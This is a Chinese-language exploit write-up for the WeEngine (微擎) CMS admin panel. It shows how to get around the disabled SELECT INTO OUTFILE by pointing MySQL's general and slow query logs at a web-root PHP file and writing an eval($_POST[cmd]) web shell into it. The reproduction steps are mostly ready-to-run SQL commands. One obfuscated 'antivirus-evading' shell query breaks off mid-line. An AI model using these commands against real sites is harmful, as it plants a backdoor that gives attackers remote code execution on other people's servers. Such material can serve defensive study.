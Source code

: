 ```yaml
---
title: 微擎 后台绕过禁用函数写shell
id: zhfly3365
---
```


# 微擎cms 后台绕过禁用函数写shell

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1.站点设置里面打开调试

![image](../img/264695a6e5450ad1459f48cec68fbed7.png)

### 2.执行语句

select into被禁止

![image](../img/d3a6ed8595f7e2441f9894fc0ae1b2f2.png)

### 3.利用日志文件写shell

```
show variables like '%general%';  #查看配置

set global general_log = on;  #开启general log模式

set global general_log_file = ‘/var/www/html/1.php’;   #设置日志目录为shell地址 `select ‘<?php eval($_POST[cmd]);?>’  #写入shell` 
```

![image](../img/88bbf31db09c427ade53cc1e9a2cae0f.png)

### 4.SQL查询免杀shell的语句

```
SELECT "<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$ 
```

### 补充:来自土司@GuoKerSb的分享

在无法修改general_log_file指向的地址且网站用户量多时刻处于查询的状态，我们还可以通过启动slow_query_log（慢查询日志，默认关闭）来写shell

```
set global slow_query_log=1;
set global slow_query_log_file='/var/www/html/1.php';
select '<?php eval($_POST[cmd]);?>' or sleep(11); 
```

## 四、参考链接

> https://www.vulnbug.com/Exploit/Microcomputer-CMS-bypasses-disabled-Intooutfile-and-safe-dog.html